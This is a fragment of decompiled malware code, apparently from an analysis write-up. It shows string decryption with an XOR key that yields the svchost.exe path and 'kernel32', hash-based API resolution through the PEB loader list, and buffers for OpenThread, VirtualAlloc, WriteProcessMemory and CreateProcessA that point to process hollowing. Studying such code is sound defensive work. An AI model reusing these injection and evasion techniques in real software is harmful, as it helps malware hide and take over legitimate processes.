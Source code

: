 ```
  char v20; // [rsp+5C0h] [rbp-228h]
  __int64 v21; // [rsp+5D0h] [rbp-218h]
  unsigned int v22; // [rsp+5DCh] [rbp-20Ch]
  _BYTE GetThreadContentA[32]; // [rsp+5E0h] [rbp-208h] BYREF
  _QWORD v24[2]; // [rsp+600h] [rbp-1E8h] BYREF
  char v25; // [rsp+610h] [rbp-1D8h]
  __int64 v26; // [rsp+618h] [rbp-1D0h]
  unsigned int v27; // [rsp+624h] [rbp-1C4h]
  _BYTE OpenThread[11]; // [rsp+62Ah] [rbp-1BEh] BYREF
  unsigned __int64 v29; // [rsp+635h] [rbp-1B3h] BYREF
  __int16 v30; // [rsp+63Dh] [rbp-1ABh]
  char v31; // [rsp+63Fh] [rbp-1A9h]
  __int64 v32; // [rsp+640h] [rbp-1A8h]
  unsigned int v33; // [rsp+64Ch] [rbp-19Ch]
  _BYTE WriteProcessMemory[32]; // [rsp+650h] [rbp-198h] BYREF
  _QWORD v35[2]; // [rsp+670h] [rbp-178h] BYREF
  __int16 v36; // [rsp+680h] [rbp-168h]
  char v37; // [rsp+682h] [rbp-166h]
  __int64 v38; // [rsp+688h] [rbp-160h]
  unsigned int v39; // [rsp+694h] [rbp-154h]
  _BYTE VirtualAlloc[15]; // [rsp+69Ah] [rbp-14Eh] BYREF
  unsigned __int64 v41; // [rsp+6A9h] [rbp-13Fh] BYREF
  int v42; // [rsp+6B1h] [rbp-137h]
  __int16 v43; // [rsp+6B5h] [rbp-133h]
  char v44; // [rsp+6B7h] [rbp-131h]
  __int64 v45; // [rsp+6B8h] [rbp-130h]
  unsigned int v46; // [rsp+6C4h] [rbp-124h]
  _BYTE CreateProcessA[15]; // [rsp+6CAh] [rbp-11Eh] BYREF
  unsigned __int64 v48; // [rsp+6D9h] [rbp-10Fh] BYREF
  int v49; // [rsp+6E1h] [rbp-107h]
  __int16 v50; // [rsp+6E5h] [rbp-103h]
  char v51; // [rsp+6E7h] [rbp-101h]
  __int64 v52; // [rsp+6E8h] [rbp-100h]
  unsigned int v53; // [rsp+6F0h] [rbp-F8h]
  _BYTE kernel32[13]; // [rsp+6F6h] [rbp-F2h] BYREF
  unsigned __int64 v55; // [rsp+703h] [rbp-E5h] BYREF
  int v56; // [rsp+70Bh] [rbp-DDh]
  char v57; // [rsp+70Fh] [rbp-D9h]
  CHAR CommandLine[32]; // [rsp+710h] [rbp-D8h] BYREF
  _QWORD v59[5]; // [rsp+730h] [rbp-B8h] BYREF
  struct _PROCESS_INFORMATION ProcessInformation; // [rsp+758h] [rbp-90h] BYREF
  struct _STARTUPINFOA StartupInfo; // [rsp+770h] [rbp-78h] BYREF
  __int64 v62; // [rsp+7D8h] [rbp-10h]
  unsigned int v63; // [rsp+7E4h] [rbp-4h]

  v62 = a1;
  memset(&StartupInfo, 0, sizeof(StartupInfo));
  StartupInfo.cb = 104;
  memset(&ProcessInformation, 0, sizeof(ProcessInformation));
  v59[0] = 0x80DAC3B7B8E2979DuLL;
  v59[1] = 0x8ACADEA7BCE2DEA9uLL;
  v59[2] = 0x87DDDBADB38C9EB3uLL;
  v59[3] = 0xEFDBD5BBC1CADEB1uLL;
  xor_DEADBEEF((__int64)v59, 0x20uLL, (__int64)CommandLine);// C:\Windows\System32\svchost.exe
  v55 = 0xDD8DC1BB81CCC8B5uLL;
  v56 = 0x83D2C9F0;
  v57 = 0xDE;
  xor_DEADBEEF((__int64)&v55, 0xDuLL, (__int64)kernel32);// kernel32
  v53 = hash(kernel32);
  v52 = PEB_ldr(v53);
  v48 = 0x9DEEC8AA8EDBDF9DuLL;
  v49 = 0x9CDBCEB1;
  v50 = 0xECAD;
```